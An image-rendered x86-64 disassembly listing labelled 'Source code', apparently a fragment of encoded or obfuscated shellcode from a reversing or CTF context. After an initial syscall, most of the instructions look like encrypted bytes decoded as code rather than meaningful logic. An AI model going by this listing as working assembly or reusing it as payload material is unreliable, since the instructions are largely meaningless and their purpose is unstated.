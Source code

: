 ```nasm
0x38:   mov     rdi, 0                                                                                                                                        
0x3f:   syscall                                                                                                                                                                                                                                                                                                             
0x41:   call    2                                                                                                                                             
0x46:   int3                                                                                                                                                                                                                                                                                                                
0x47:   out     dx, al                                                                                                                                        
0x48:   in      al, 0xa1                                    
0x4b:   enter   -0xd11, -0xb                                                                                                                                  
0x4f:   hlt                                                                                                                                                   
0x51:   loop    0x48                                        
0x53:   call    0xffffffffa1f2f046                          
0x58:   shr     ebp, 1                                                                                                                                        
0x5a:   in      al, 0xe0                                         
0x5c:   in      al, 0xad                                          
0x5f:   movabs  eax, dword ptr [0x92818189bbf3e8d2]                                                                                                           
0x68:   add     dword ptr [rcx + 0x61828181], 0x3ca2a4c1                                                                                                      
0x72:   jle     0xf1                                        
0x74:   movabs  byte ptr [0xa5808185a5828124], al           
0x7d:   xchg    dword ptr [rcx - 0x7e77ef80], eax                                                                                                             
0x83:   adc     dword ptr [rax - 0x7e797e5f], 0x80818181                
0x8d:   mov     cl, 0xc9                                          
0x8f:   cmpsd   dword ptr [rsi], dword ptr [rdi]        
0x90:   sub     byte ptr cs:[rcx - 0x717c5a7f], al                                                                                                                                                                                                                                                                          
0x97:   and     eax, 0x8d818181                                                                                                                                                                                                                                                                                             
0x9c:   mov     dword ptr [rcx - 0x765f797f], eax                                                                                                                                                                                                                                                                           
0xa2:   add     dword ptr [rax + 0x208e83a5], 0x818185a5                                                                                                      
0xac:   add     dword ptr [rcx - 0x7e72727f], 0x81818381      
0xb6:   add     dword ptr [rcx - 0x1070a21], 0xfaebf8a3                
0xc0:   int1

```
